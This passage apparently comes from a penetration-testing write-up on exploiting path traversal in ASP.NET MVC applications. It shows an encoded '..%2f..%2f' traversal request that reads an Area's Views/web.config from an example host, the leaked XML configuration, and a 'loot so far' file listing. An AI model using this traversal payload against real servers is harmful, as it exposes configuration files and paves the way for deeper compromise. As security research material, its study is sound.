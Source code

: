   

### Extend the attack surface

From the definition of an Area, an attacker can infer that other web.config files are present in the application, in guessable/default paths as /area-name/Views/, containing specific configurations that may refer to other DLL files present in the /bin folder.  
  
Request:  
GET /download\_page?id=**..%2f..%2fMinded/Views/web.config** HTTP/1.1  
Host: example-mvc-application.minded  
\[...\]  
  
Response:  
HTTP/1.1 200 OK  
\[...\]  
<?xml version="1.0"?>  
<configuration>  
<configSections>  
  <sectionGroup name="system.web.webPages.razor" **type**\="System.Web.WebPages.Razor.Configuration.RazorWebSectionGroup, System.Web.WebPages.Razor, Version=3.0.0.0, Culture=neutral">  
    <section name="host" **type**\="System.Web.WebPages.Razor.Configuration.HostSection, System.Web.WebPages.Razor, Version=3.0.0.0, Culture=neutral" requirePermission="false" />  
    <section name="pages" **type**\="System.Web.WebPages.Razor.Configuration.RazorPagesSection, System.Web.WebPages.Razor, Version=3.0.0.0, Culture=neutral” requirePermission="false" />  
  </sectionGroup>  
</configSections>  
<system.web.webPages.razor><host factoryType="System.Web.Mvc.MvcWebRazorHostFactory, System.Web.Mvc, Version=5.2.3.0, Culture=neutral" />  
<pages pageBaseType="System.Web.Mvc.WebViewPage">  
<namespaces>  
  <add **namespace**\="System.Web.Mvc" />  
  <add **namespace**\="System.Web.Mvc.Ajax" />  
  <add **namespace**\="System.Web.Mvc.Html" />  
  <add **namespace**\="System.Web.Routing" />  
  <add **namespace**\="System.Web.Optimization" />  
  <add **namespace**\="WebApplication1" />  
  **_<add namespace="WebApplication1.AdditionalFeatures" />_**  
</namespaces>  
</pages>  
</system.web.webPages.razor>  
<appSettings><add key="webpages:Enabled" value="false" /></appSettings>  
<system.webServer><handlers><remove name="BlockViewHandler"/><add name="BlockViewHandler" path="\*" verb="\*" preCondition="integratedMode" type="System.Web.HttpNotFoundHandler" /></handlers>  
</system.webServer>  
</configuration>  
  

#### Attacker's loot so far

C:\\WebApplication1> dir /b /s web.config

C:\\WebApplication1\\Web.config

